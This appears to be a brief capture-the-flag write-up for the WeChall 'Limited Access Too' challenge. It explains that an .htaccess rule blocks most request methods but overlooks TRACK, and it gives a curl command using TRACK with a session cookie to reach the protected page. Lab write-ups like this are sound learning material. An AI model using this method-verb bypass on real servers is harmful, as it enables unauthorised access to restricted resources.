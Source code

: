 # [Limited Access Too](https://www.wechall.net/challenge/wannabe7331/limited_access_too/index.php)

This is another `.htaccess` challenge. The configuration has been updated to restrict almost every 
single request type. But there is something similar to `TRACE` that's not accounted for... `TRACK`

`curl 'https://www.wechall.net/challenge/wannabe7331/limited_access_too/protected/protected.php' -X TRACK -H 'Cookie: WC=11XXXXXX-XXXXX-XXXXXXXXXXXXXXXX'`

Solved.
